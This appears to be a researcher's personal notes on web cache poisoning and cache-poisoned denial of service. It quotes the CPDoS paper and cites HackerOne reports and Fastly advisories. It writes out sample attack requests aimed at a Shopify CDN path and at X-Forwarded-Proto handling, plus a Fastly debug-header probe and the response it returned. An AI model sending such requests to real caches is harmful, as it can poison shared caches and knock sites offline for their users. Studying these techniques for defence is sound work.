     https://cdn.shopify.com/static/javascripts/vendor/bugsnag.v7.4.0.min.js
    https://cdn.shopify.com\static\javascripts\vendor\bugsnag.v7.4.0.min.js
    
https://cpdos.org says it better.

    A general problem in layered systems is the different interpretation when operating on the same message in sequence. 
    As we will discuss in detail in Section 3, this is the root cause for attacks belonging to the family of "semantic gap" attacks. 
    These attacks exploit the difference in interpreting an object by two or more entities. 
    In the context of this paper the problem arises when an attacker can generate an HTTP request for a cacheable resource
    where the request contains inaccurate fields that are ignored by the caching system but raise an error while processed by the origin server. 

Okay, it is called `semantic gap` I would love to research into these types of security issues. I imagine how hard it must be
for the microservices and distributed systems people. 


    # https://hackerone.com/reports/1695604
    GET /static\javascripts\vendor\bugsnag.v7.4.0.min.js?cachebuster=123 HTTP/1.1
    Host: cdn.shopify.com

    # also check X-Forwarded-Proto: http 

    GET /random HTTP/1.1
    Host: innocent-site.com
    X-Forwarded-Proto: http

    HTTP/1.1 301 moved permanently
    Location: https://innocent-site.com/random
    Authorization:        crafted headers      see https://hackerone.com/reports/1173153

# Fastly Cache Poisoning with X-Forwarded-Host and Port Numbers 
[Fastly Cache Poisoning Advisory](https://www.fastly.com/security-advisories/fastly-security-advisory-cache-poisoning-vulnerability-leveraging-x-forwarded-host-header)
[On Fastly cache keys](https://www.fastly.com/blog/getting-most-out-vary-fastly)

# Detecting Fastly 
    GET / HTTP/1.1
    Fastly-Debug: 1 

    # HTTP/1.1 200 OK
    surrogate-control: max-age=86400
    surrogate-key: app_marketing-client-ssr
    age: 268
    fastly-debug-path: (D cache-lis1490042-LIS 1753135014) (F cache-lis1490053-LIS 1753134747)
    fastly-debug-ttl: (H cache-lis1490042-LIS - - 268)
    fastly-debug-digest: 122d2fa6e2b43b7835b40170f1519627da4e81565a25c347f9f7e4765204dcc9
    x-cache: HIT
    x-cache-hits: 1
    x-timer: S1753135014.357746,VS0,VE8
